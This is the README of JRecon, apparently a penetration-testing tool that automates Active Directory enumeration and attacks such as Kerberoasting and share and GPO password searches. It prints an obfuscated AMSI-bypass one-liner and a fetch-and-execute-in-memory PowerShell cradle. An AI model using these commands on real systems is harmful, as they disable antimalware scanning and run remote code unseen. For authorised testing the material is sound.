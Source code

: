 # JRecon
### A tool to automate Active Directory Reconnaissance
I've been working on this tool to automate a good part of the initial AD enumeration phase that I always go through at the very start of every AD test.

### What can JRecon do for you ?

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS

It will then ask you the following:

Do you want to run the initial Domain Enumeration ?
Do you want to run BloodHound Collection ?
Do you want to download and run PingCastle ?
Do you want to enumerate Readable Shares ?
Do you want to use PingCastle to enumerate shares ?
Do you want to enumerate Writable Shares ?
Do you want to run a URL File Attack ?
Do you want to run a Kerberoast (and ASREPRoast) attack ?
Do you want to check for presence of Kerb Tickets in your local machine ?
Do you want to check for Misconfigured Certificate Templates ?
Do you want to enumerate for Vulnerable GPOs ?
Do you want to enumerate LDAP Signing ?
Do you want to check for Exploitable Systems ?
Do you want to search for Passwords in GPO ?
Do you want to search for Passwords in SYSVOL/Netlogon ?

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle free version will be downloaded)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?


**Rubeus**

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 

**Grouper3**

Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.

@Credit to: https://github.com/Group3r/Group3r
 

**Certify**

Active Directory certificate abuse. 

@Credit to: https://github.com/GhostPack/Certify


**LdapSignCheck**

C# project to check LDAP signing.

@Credit to: https://github.com/cube0x0/LdapSignCheck


**PingCastle** (Free Edition - **Not for commercial use**)

Get Active Directory Security at 80% in 20% of the time

@Credit to: https://github.com/vletoux/pingcastle


**SharpHound**

C# Data Collector for the BloodHound Project

@Credit to: https://github.com/BloodHoundAD/SharpHound


**ADRecon**

ADRecon is a tool which gathers information about the Active Directory

@Credit to: https://github.com/sense-of-security/ADRecon


**Kerberoast.ps1**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1


**PowerView**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


**AmsiScanBuffer bypass**

Author: Rasta Mouse (@_RastaMouse)

@Credit to: https://twitter.com/_RastaMouse


